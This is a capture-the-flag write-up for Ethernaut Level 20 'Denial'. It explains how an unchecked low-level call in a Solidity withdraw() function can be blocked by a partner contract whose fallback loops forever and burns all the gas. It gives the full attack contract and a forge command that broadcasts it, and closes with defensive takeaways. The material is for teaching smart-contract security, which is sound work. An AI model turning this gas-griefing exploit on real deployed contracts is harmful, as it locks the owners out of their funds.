

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 20 - Denial](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-20-denial)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

Let's take a look at the `withdraw()` function:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% of the contract's balance
        partner.call{value:amountToSend}(""); // Send to partner using call
        payable(owner).transfer(amountToSend); // Send to owner using transfer

        // The rest is irrelevant to the solution, but note that the CEI isn't respected
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

There are 2 external calls here:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

There isn't much we can do with the `transfer` to the owner. However, we know that the `call` function forwards all the remaining gas to the callee. Unfortunately, since the return value isn't checked, simply reverting upon receiving ether wouldn't work. So we have to find another way to break the `withdraw` function.

This can be achieved by using all the remaining gas within the fallback function. By doing so, the `withdraw()` function will never be able to complete its execution. In this case, a useless infinite loop will do the work beautifully:

```javascript
fallback() external payable {
    while (true) {}
}
```

## Solution

Let's implement the solution accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Stop {
    IDenial idenial;

    constructor(address _denial) {
        idenial = IDenial(_denial);
    }

    function becomePartner() public {
        idenial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }
}

```

Then run the script with the following command:

```bash
forge script script/20_Denial.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Always check the return value of the `call` function.
- A specific amount of gas can be specified when using the `call` function.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
